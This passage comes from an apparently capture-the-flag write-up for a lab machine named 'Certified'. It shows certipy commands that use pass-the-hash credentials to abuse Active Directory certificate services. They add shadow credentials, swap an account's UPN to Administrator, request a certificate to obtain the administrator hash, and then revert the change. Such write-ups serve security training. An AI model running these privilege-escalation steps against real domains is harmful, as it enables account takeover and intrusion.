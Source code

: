 following the steps from https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation?fallback=true#abuse-scenario we can get the administrator NTLM hash

```bash
certipy shadow auto -username management_svc@certified.htb -hashes aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```

![](src/assets/certified/Certified_image_3.png)


```bash
certipy account update -username management_svc@certified.htb -hashes aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```

![](src/assets/certified/Certified_image_4.png)

```bash
certipy req -username ca_operator@certified.htb -hashes a9fdfa038c4b75ebc76dc855dd74f0da -ca certified-dc01-ca -template CertifiedAuthentication
```

![](src/assets/certified/Certified_image_5.png)

```bash
certipy account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
```
